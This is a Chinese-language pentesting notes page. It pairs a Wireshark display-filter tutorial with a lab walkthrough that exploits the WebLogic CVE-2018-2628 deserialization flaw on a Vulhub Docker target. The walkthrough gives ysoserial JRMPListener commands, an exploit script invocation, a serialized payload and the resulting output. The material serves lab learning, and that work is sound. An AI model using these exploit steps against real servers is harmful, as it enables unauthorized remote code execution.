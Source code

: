 ```yaml
---
title: "Wireshark"
permalink: /Pentesting/Wireshark/
excerpt: "Wireshark"
last_modified_at: 2020-01-28T21:36:11-04:00
categories: pentesting
redirect_from:
  - /theme-setup/
toc: true
---
```


## 一、下载
- https://www.wireshark.org/download.html
- https://1.na.dl.wireshark.org/win64/Wireshark-win64-3.2.6.exe

## 二、基本操作

### 2.1 选择监听网卡

### 2.2 面板

- 第一栏，过滤条件设置
- 第二烂，数据包列表  -- 不同的协议会显示不同的颜色，方便区分。
- 第三栏，数据包详细信息
  - frame:物理层的数据帧概况
  - ethernet:数据链路层以太网帧头部信息
  - internet protocol version 4:互联网层ip包头部信息
  - transmission control protocol：传输层T的数据段头部信息，此处是tcp
  - hypertext transfer protocol：应用层的信息，此处是http协议
- 第四栏，16进制数据 -- 点击数据包详细信息数据区域的数据，在16进制数据区域中会显示对应的数据。

### 2.3 协议过滤

- tcp，icmp，http，udp...
- 单独输入只显示对应的协议数据包列表，列如：输入http

### 2.4 ip过滤

- ip.src==120.241.148.154 显示源地址为120.241.148.154 的数据包列表
- ip.dst==120.241.148.154 , 显示目标地址为120.241.148.154 的数据包列表
- ip.addr == 120.241.148.154 显示源IP地址或目标IP地址为120.241.148.154的数据包列表
 
### 2.5 端口过滤

- tcp.port ==80, 显示源主机或者目的主机端口为80的数据包列表。
- tcp.srcport == 80, 只显示TCP协议的源主机端口为80的数据包列表。
- tcp.dstport == 80，只显示TCP协议的目的主机端口为80的数据包列表。

### 2.6 http模式过滤

- http.request.method=="GET"，只显示HTTP GET方法
- http.request.method=="POST"

### 2.7 逻辑运算符 and/or/not

- http.request.method=="POST" and ip.src==192.168.71.249 只显示192.168.71.249发送的post数据。

### 2.8 固定特征检索

- 数据包信息 > 选中特征信息 > 右键：作为过滤应用 > 选中
- 选中要cookie（可以选择为恶意的payload）右击，作为过滤器应用-->选中，则只会显示cookie为选择值的数据包。

## 三、Weblogic WLS Core Components 反序列化命令执行漏洞（CVE-2018-2628）

**使用Vulhub一键搭建漏洞测试靶场**

https://vulhub.org/#/environments/weblogic/CVE-2018-2628/
```
https://docs.docker.com/engine/install/centos/

# yum install -y yum-utils device-mapper-persistent-data lvm2
# yum-config-manager --add-repo http://mirrors.aliyun.com/docker-ce/linux/centos/docker-ce.repo
# yum install docker-ce
# systemctl enable docker
# systemctl start docker
# yum list docker-ce --showduplicates

https://docs.docker.com/compose/

# url -L "https://github.com/docker/compose/releases/download/1.27.0/docker-compose-$(uname -s)-$(uname -m)" -o /usr/local/bin/docker-compose
# chmod +x /usr/local/bin/docker-compose 
# docker-compose --version
docker-compose version 1.27.0, build 980ec85b

# mkdir github
# cd github/
# yum install -y git
# git version
git version 1.8.3.1

https://vulhub.org/
# git clone https://github.com/vulhub/vulhub.git  
正克隆到 'vulhub'...
remote: Enumerating objects: 78, done.
remote: Counting objects: 100% (78/78), done.
remote: Compressing objects: 100% (53/53), done.
remote: Total 9648 (delta 28), reused 55 (delta 15), pack-reused 9570
接收对象中: 100% (9648/9648), 129.47 MiB | 35.00 KiB/s, done.
处理 delta 中: 100% (3791/3791), done.
# pwd
/github/vulhub
# pwd
/github/vulhub/weblogic/CVE-2018-2628
# docker-compose build
weblogic uses an image, skipping
# docker-compose up -d
Creating network "cve-2018-2628_default" with the default driver
Pulling weblogic (vulhub/weblogic:)...
latest: Pulling from vulhub/weblogic
6599cadaf950: Pull complete
23eda618d451: Pull complete
f0be3084efe9: Pull complete
52de432f084b: Pull complete
a3ed95caeb02: Pull complete
a2318f26c625: Pull complete
1aa642dd8cc1: Pull complete
b307208f8bf5: Pull complete
1dfbbdcc497d: Pull complete
a53e674a7606: Pull complete
5f06bb51fa3c: Pull complete
ff0ff72567f2: Pull complete
684862046025: Pull complete
abbf8d475455: Pull complete
848eb11ef744: Pull complete
2f3438f2b83b: Pull complete
8e5871e15571: Pull complete
Digest: sha256:275ec19477cfda389dc1c42158033e7e8c650dd4cba9f090ca0ba673902b73c9
Status: Downloaded newer image for vulhub/weblogic:latest
Creating cve-2018-2628_weblogic_1 ... done
# docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
vulhub/weblogic     latest              7d35c6cd3bcd        3 years ago         2.46GB
# docker ps -a
CONTAINER ID        IMAGE               COMMAND              CREATED             STATUS              PORTS                              NAMES
bb165ea737df        vulhub/weblogic     "startWebLogic.sh"   9 minutes ago       Up 9 minutes        5556/tcp, 0.0.0.0:7001->7001/tcp   cve-2018-2628_weblogic_1

访问 http://192.168.11.226:7001/console

```

```
# cd /github
# git clone https://github.com/frohoff/ysoserial.git
# cd ysoserial
# mvn package
```
 
### 3.2 使用ysoserial 启动一个JRMP Server

**cp参数就是classpath，[command]即为我想执行的命令，而[listen port]是JRMP Server监听的端口。**
```
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]

java -cp ysoserial-0.0.6-SNAPSHOT-all.jar  ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'touch /tmp/success'
* Opening JRMP listener on 1099
Have connection from /192.168.11.226:55006
Reading message...
Is DGC call for [[0:0:0, 1688614442]]
Sending return with payload for obj [0:0:0, 2]
Closing connection
Have connection from /192.168.11.226:55008
```
### 3.3 执行exploit,发送数据包
https://www.exploit-db.com/exploits/44553

python exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]

- [victim ip]和[victim port]是目标weblogic的IP和端口
- [path to ysoserial]是本地ysoserial的路径
- [JRMPListener ip]和[JRMPListener port]第一步中启动JRMP Server的IP地址和端口
- [JRMPClient]是执行JRMPClient的类，可选的值是JRMPClient或JRMPClient2
```
 python CVE-2018-2628-exploit.py 192.168.11.226 7001 ysoserial-0.0.6-SNAPSHOT-all.jar 192.168.11.151 10
99 JRMPClient
握手成功
send request payload successful,recv length:1690
command: java -jar ysoserial-0.0.6-SNAPSHOT-all.jar JRMPClient 192.168.11.151:1099 > payload.out
payload:
b'aced0005737d00000001001a6a6176612e726d692e72656769737472792e5265676973747279787200176a6176612e6c616e672e7265666c6563742e50726f7879e127da20cc1043cb0200014c0001
687400254c6a6176612f6c616e672f7265666c6563742f496e766f636174696f6e48616e646c65723b78707372002d6a6176612e726d692e7365727665722e52656d6f74654f626a656374496e766f63
6174696f6e48616e646c657200000000000000020200007872001c6a6176612e726d692e7365727665722e52656d6f74654f626a656374d361b4910c61331e03000078707737000a556e696361737452
6566000e3139322e3136382e31312e3135310000044b0000000064a6362a00000000000000000000000000000078'


response:
exploit completed!

# docker ps -a
CONTAINER ID        IMAGE               COMMAND              CREATED             STATUS              PORTS                              NAMES
bb165ea737df        vulhub/weblogic     "startWebLogic.sh"   5 days ago          Up 4 minutes        5556/tcp, 0.0.0.0:7001->7001/tcp   cve-2018-2628_weblogic_1

# docker exec -it /bin/bash bb165ea737df
```






**查看恶意ip和受害ip的数据通信**

ip.src==192.168.11.150 and ip.dst==192.168.11.226